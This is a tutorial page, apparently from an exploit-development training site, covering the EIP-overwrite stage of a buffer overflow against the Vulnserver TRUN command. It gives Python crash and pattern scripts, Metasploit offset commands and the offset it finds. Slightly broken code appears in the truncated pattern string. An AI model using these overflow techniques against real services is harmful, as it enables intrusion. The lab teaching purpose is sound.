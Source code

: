 ```yaml
---
title: "TRUN EIP Overwrite"
layout: home
permalink: /vulnserver/trun/
collection: vulnserver
sidebar:
  nav: "main"
entries_layout: grid
classes: wide
---
```


Begin by using the below proof of concept script, developed by using the SPIKE fuzzer to identify a hole in the Vulnserver TRUN command.

	Vulnserver TRUN Python Script: POC
		#!/usr/bin/python
		import socket
		import os
		import sys

		crash="A"*5000

		buffer="TRUN /.:/"
		buffer+=crash

		print "[*] Sending evil TRUN request to VulnServer, OS-42279"
		expl = socket.socket ( socket.AF_INET, socket.SOCK_STREAM )
		expl.connect(("192.168.83.128", 9999))
		expl.send(buffer)
    expl.close()

Running this POC script against Vulnserver produces the same result in the OllyDbg debugger as our previous SPIKE fuzzing attempts. As a very nice bonus, the input we sent has been used to control the value of a very important register in the CPU – the EIP (Extended Instruction Pointer) register. Notice how the EIP register contains the value 41414141?

![trun-eip-overwrite-media-01](/screenshots/vulnserver/trun-eip-overwrite/trun-eip-overwrite-media-01.png)

Additional testing proves that a 2500 byte buffer will also cause the Vulnserver application to crash due to an access violation. Create a 2500 byte patterned string to identify which part of the buffer is being stored in the EIP.
	> /usr/share/metasploit-framework/tools/exploit/pattern_create.rb -l 2500

Insert the 2500 character pattern into the Vulnserver TRUN POC Python Script.

  Vulnserver TRUN Python Script: Pattern
    #!/usr/bin/python
    import socket
    import os
    import sys

    crash="Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3>

    buffer="TRUN /.:/"
    buffer+=crash

    print "Sending evil TRUN request to VulnServer, OS-42279"
    expl = socket.socket ( socket.AF_INET, socket.SOCK_STREAM )
    expl.connect(("192.168.83.128", 9999))
    expl.send(buffer)
    expl.close()

Running the Vulnserver TRUN Pattern Python Script against the target system shows that the following pattern value is being stored in EIP.

![trun-eip-overwrite-media-02](/screenshots/vulnserver/trun-eip-overwrite/trun-eip-overwrite-media-02.png)

EIP address is 386F4337. Use the Metasploit pattern offset utility to identify where the bytes are located in the 2500 byte buffer.
	 > /usr/share/metasploit-framework/tools/exploit/pattern_offset.rb -l 2500 -q 386F4337

![trun-eip-overwrite-media-03](/screenshots/vulnserver/trun-eip-overwrite/trun-eip-overwrite-media-03.png)

An exact match was found at offset 2003 bytes.  Modify the buffer in the POC script to now send 2003 "A" characters, 4 "B" characters, and 1993 "C" characters; this should overwrite EIP with 4 "B" characters while retaining a 4000 byte buffer size.
